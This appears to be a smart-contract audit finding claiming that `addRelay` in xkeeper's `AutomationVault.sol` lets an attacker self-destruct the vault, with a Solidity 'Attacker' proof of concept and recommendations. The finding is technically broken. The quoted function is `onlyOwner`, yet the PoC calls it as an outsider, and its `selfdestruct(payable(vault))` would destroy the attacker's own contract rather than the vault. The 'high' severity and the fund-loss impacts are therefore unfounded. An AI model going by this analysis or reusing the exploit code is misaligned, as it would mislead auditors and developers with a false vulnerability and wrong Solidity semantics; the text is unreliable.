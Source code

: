 Amateur Silver Corgi

high

# Malicious Relay Exploitation for Contract Self-Destruction in `AutomationVault.sol` `addRelay` Function

## Summary
The vulnerability lies in the `addRelay` function of the `AutomationVault` contract. By manipulating the function to approve a malicious relay, an attacker can introduce a malicious job with the ability to execute a self-destruct function on the contract. This exploitation can lead to the destruction of the contract, resulting in loss of control and potentially causing significant financial and operational damage to the ecosystem.

## Vulnerability Detail
The `addRelay` function in the `AutomationVault` contract is responsible for approving a relay to execute specific jobs and call certain functions. This function accepts a relay address, a list of caller addresses, and job data as input parameters. The function adds the relay to the list of approved relays and sets the approved callers and jobs for the relay.

The vulnerability arises because the function does not validate the contracts associated with the relay and job data. This oversight allows an attacker to introduce a malicious relay and job data that can include contracts with harmful functions.

In particular, an attacker can craft a malicious relay that includes a job data array with a job contract containing a `selfdestruct` function. If the malicious relay is approved, the contract's execution could potentially trigger the `selfdestruct` function, resulting in the complete destruction of the `AutomationVault` contract. This would disrupt the ecosystem and cause loss of funds and control.

Additionally, because the `addRelay` function does not verify the legitimacy of the provided job contracts, the attacker can take advantage of this oversight to introduce other malicious functions that can disrupt the contract's operations or steal funds.

The lack of proper validation in the `addRelay` function leaves the contract exposed to serious threats, making it crucial to implement measures to verify the integrity and safety of the relay and job data being added.
```solidity
  function addRelay(
    address _relay,
    address[] calldata _callers,
    IAutomationVault.JobData[] calldata _jobsData
  ) external onlyOwner {
    if (_relay == address(0)) revert AutomationVault_RelayZero();

    // If the relay is not in the list of relays, add it
    if (!_relays.add(_relay)) revert AutomationVault_RelayAlreadyApproved();
    emit ApproveRelay(_relay);

    // Create the counters variables
    uint256 _i;
    uint256 _j;

    // Create the length variables
    uint256 _valuesLength = _callers.length;

    // Set the callers for the relay
    for (_i; _i < _valuesLength;) {
      if (_approvedCallers[_relay].add(_callers[_i])) {
        emit ApproveRelayCaller(_relay, _callers[_i]);
      }

      unchecked {
        ++_i;
      }
    }

    // Get the length of the jobs data array
    _valuesLength = _jobsData.length;

    // Create the selector length variable
    uint256 _selectorsLength;

    // Set the jobs and their selectors for the relay
    for (_i = 0; _i < _valuesLength;) {
      IAutomationVault.JobData memory _jobData = _jobsData[_i];

      // Necessary to avoid an empty job from being assigned to selectors
      if (_jobData.job != address(0)) {
        // Set the job for the relay
        if (_approvedJobs[_relay].add(_jobData.job)) {
          emit ApproveJob(_jobData.job);
        }

        // Get the length of the selectors array
        _selectorsLength = _jobData.functionSelectors.length;

        // Set the selectors for the job
        for (_j = 0; _j < _selectorsLength;) {
          if (_approvedJobSelectors[_relay][_jobData.job].add(_jobData.functionSelectors[_j])) {
            emit ApproveJobSelector(_jobData.job, _jobData.functionSelectors[_j]);
          }

          unchecked {
            ++_j;
          }
        }
      }

      unchecked {
        ++_i;
      }
    }
  }

```

## Impact
 - Contract Destruction: If a malicious relay containing a job contract with a `selfdestruct` function is added, the `AutomationVault` contract can be self-destructed, leading to the complete loss of contract functionality and any funds held within it.

-  Loss of Funds: If the contract is destroyed, all funds stored in the `AutomationVault` contract can be permanently lost, affecting the owner and any users who rely on the contract.

-    Disruption of Operations: The self-destruction of the contract would disrupt the entire operation of the `AutomationVault` system, affecting job executions, relay approvals, and payment distributions.

 -   Security Risks: Besides self-destruction, other malicious functions introduced via the relay and job data could lead to unauthorized fund withdrawals, manipulation of data, or other security breaches.

## Code Snippet

https://github.com/sherlock-audit/2024-04-xkeeper/blob/main/xkeeper-core/solidity/contracts/core/AutomationVault.sol#L139

## Proof of Concept 
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

// Import the AutomationVault interface
import "./IAutomationVault.sol";

contract Attacker {
    // Reference to the AutomationVault contract
    AutomationVault vault;

    // Constructor accepts the address of the AutomationVault contract to target
    constructor(address _vaultAddress) {
        // Initialize the vault contract reference
        vault = AutomationVault(_vaultAddress);
    }

    // Function to execute the exploit
    function exploit() external {
        // Define a malicious relay address (the attacker's contract address)
        address maliciousRelay = address(this);

        // Define a list of callers for the relay (in this case, the attacker itself)
        address[] memory callers = new address[](1);
        callers[0] = maliciousRelay;

        // Define the job data array with a single job
        IAutomationVault.JobData[] memory jobsData = new IAutomationVault.JobData[](1);
        // Set the job address as the attacker's contract (malicious job)
        jobsData[0].job = address(this);
        // Define function selectors for the malicious job
        // The function selector will be for the `destroyVault` function
        jobsData[0].functionSelectors = new bytes4[](1);
        jobsData[0].functionSelectors[0] = this.destroyVault.selector;

        // Call addRelay to exploit the contract
        vault.addRelay(maliciousRelay, callers, jobsData);
    }

    // Malicious function that self-destructs the AutomationVault contract
    function destroyVault() external {
        // Self-destruct the AutomationVault contract
        selfdestruct(payable(vault));
    }
}

```

## Tool used

Manual Review

## Recommendation
- Strict Validation: Implement strict validation and verification of relay and job data provided through the `addRelay` function. Ensure that any job contracts added are audited and verified for safety.
- Allowlist Approved Contracts: Maintain an `allowlist` of approved job contracts that can be added to relays. This list should be managed by the owner and include only verified, secure contracts.
- Function Restriction: Implement function restrictions in job contracts to prevent the addition of contracts with dangerous functions like `selfdestruct` or other malicious actions. Job contracts should adhere to strict security standards
- Emergency Stop Mechanism: Consider implementing an emergency stop or pause mechanism to halt operations temporarily if malicious activity is detected.
